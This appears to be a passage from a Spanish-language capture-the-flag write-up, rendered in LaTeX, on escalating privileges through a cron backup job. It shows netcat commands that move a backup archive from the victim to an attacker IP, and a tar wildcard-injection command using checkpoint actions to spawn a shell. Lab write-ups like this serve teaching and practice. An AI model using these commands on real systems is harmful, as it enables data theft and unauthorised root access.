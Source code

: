 \documentclass{assets/ipesethesis}
\newenvironment{Shaded}{\begin{snugshade}}{\end{snugshade}}
\newcommand{\BuiltInTok}[1]{#1}
\newcommand{\ExtensionTok}[1]{#1}
\newcommand{\FunctionTok}[1]{\textcolor[rgb]{0.00,0.00,0.00}{#1}}
\newcommand{\KeywordTok}[1]{\textcolor[rgb]{0.13,0.29,0.53}{\textbf{#1}}}
\newcommand{\NormalTok}[1]{#1}
\newcommand{\OperatorTok}[1]{\textcolor[rgb]{0.81,0.36,0.00}{\textbf{#1}}}
\newcommand{\StringTok}[1]{\textcolor[rgb]{0.31,0.60,0.02}{#1}}
\begin{document}
\begin{Shaded}
\begin{Highlighting}[]
\BuiltInTok{cd}\NormalTok{ backup}
\FunctionTok{stat}\NormalTok{ *}
\FunctionTok{stat}\NormalTok{ * }\KeywordTok{|} \FunctionTok{grep} \StringTok{"Modify"}
\end{Highlighting}
\end{Shaded}

En el directorio backup vemos que cada 5 minutos una tarrea que se esta ejecutando a intervalos regulares de tiempo nos crea un archivo de backup.
Ahora tenemos que saber lo que se esta poniendo en estos backups.

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  En la maquina de attaquante

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{nc}\NormalTok{ -u -nlvp 443 }\OperatorTok{>}\NormalTok{ dev-1627332901.tar.gz}
\end{Highlighting}
\end{Shaded}
\item
  En la maquina victima

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{nc}\NormalTok{ -u 10.10.14.20 443 }\OperatorTok{<}\NormalTok{ dev-1627332901.tar.gz}
\end{Highlighting}
\end{Shaded}
\end{enumerate}

mirando el contenido de fichero comprimido, nos damos cuenta que el contenido es el mismo que el directorio development.

Saviendo esto estamos intuiendo que la tarea cron ejecuta un commando del estilo: \texttt{tar\ -cvf\ backup/test.tar.gz\ /home/alekos/development/*}.
Aqui el problema es que si el commando es este, el symbolo \texttt{*} permitteria burlar el commando tar con breakpoints. Lo que queremos ejecutar seria
el commando siguiente:

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{tar}\NormalTok{ -cvf backup/test.tar.gz /home/alekos/development/* --checkpoint=1 --checkpoint-action=exec/bin/sh}
\end{Highlighting}
\end{Shaded}
\end{document}
